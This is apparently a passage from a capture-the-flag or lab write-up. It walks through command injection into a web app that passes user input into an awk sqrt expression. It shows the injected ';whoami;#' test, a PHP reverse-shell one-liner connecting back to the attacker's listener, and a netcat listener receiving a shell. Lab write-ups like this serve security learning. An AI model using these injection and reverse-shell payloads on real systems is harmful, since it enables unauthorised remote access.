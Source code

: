 interesting fact is that we can input strings in input boxes, and it goes into the equation:

```
Executed: awk 'BEGIN {print sqrt(((-123)^2) + ((-test)^2))}'
Result: 123 
```

What we would want is to execute our command and comment out the rest of the equation without making everything explode. Something theoretical like that:

<pre><code><strong>Executed: awk 'BEGIN {print sqrt(((-123)^2) + ((-456)^2))}'
</strong>					      ((-456)^2))}';whoami;#
</code></pre>

<figure><img src="../../../../.gitbook/assets/image (241).png" alt=""><figcaption><p>1st step done, let's go deeper</p></figcaption></figure>

To pop a shell we need to create a request coming from the server to our local listener

we see the file is a .php so we can go and use the php reverse shell payload from earlier and modify it:

```
Executed: awk 'BEGIN {print sqrt(((-123)^2) + ((-456)^2))}'
					      ((-456)^2))}'; php -r '$sock=fsockopen("172.16.X.X",8080);exec("/bin/sh -i <&3 >&3 2>&3");'; asd;#
```

<figure><img src="../../../../.gitbook/assets/image (242).png" alt=""><figcaption><p>the input looks like this </p></figcaption></figure>

```
                                                                                                                  
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 8080
listening on [any] 8080 ...
connect to [172.16.X.X] from (UNKNOWN) [172.18.X;X] 47746
/bin/sh: 0: can't access tty; job control turned off
$
```

We got a shell on the machine :smile:
